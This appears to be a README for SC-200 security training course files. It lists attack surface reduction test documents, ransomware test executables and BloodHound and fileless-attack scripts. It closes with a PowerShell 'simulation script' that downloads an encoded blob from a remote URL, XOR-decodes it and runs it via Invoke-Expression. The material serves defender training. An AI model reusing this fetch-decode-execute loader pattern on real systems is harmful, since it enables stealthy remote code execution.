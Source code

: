 # CourseFiles for SC200

## SC200-Files1

- RS4_WinATP-Intro-Invoice.docm
- BloodHound.ps1
- FilelessATK.ps1
- RS3_WinATP-Intro-Invoice.docm

## SC200-Files2

- SC200-Files2\ASR_CFA_CleanupScript.zip
- SC200-Files2\ASR_SetupScript.zip
- Block_Win32_imports_from_Macro_code_in_Office_92E97FA1-2EDF-4476-BDD6-9DD0B4DDDC7B.docm
- ransomware_cleanup_encrypt_decrypt.exe
- ransomware_testfile_doc.docm
- TestFile_Block_Office_applications_from_creating_executable_content_3B576869-A4EC-4529-8536-B80A7769E899.docm
- TestFile_Impede_JavaScript_and_VBScript_to_launch_executables_D3E037E1-3EB8-44C8-A917-57927947596D.js
- TestFile_OfficeChildProcess_D4F940AB-401B-4EFC-AADC-AD5F3C50688A.docm
- TestFile_PsexecAndWMICreateProcess_D1E49AAC-8F56-4280-B9BA-993A6D77406C.vbs
- UNSIGNED_ransomware_test_exe.exe

## Web-Links, Blogs und mehr
[hier](/WebLinks.md)

## Cross Product Simulation Script

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
$base64String =	(Invoke-WebRequest -URI	https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt -UseBasicParsing).Content;
Try{ 
    $contentBytes =	[System.Convert]::FromBase64String($base64String) 
} 
Catch { 
    $contentBytes =	[System.Convert]::FromBase64String($base64String.Substring(3)) 
};

$i = 0;	
$decryptedBytes = @();
$contentBytes.foreach{ 
    $decryptedBytes += $_ -bxor $xor[$i];
    $i++;
    if ($i -eq $xor.Length) {
        $i = 0
        }
    };
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

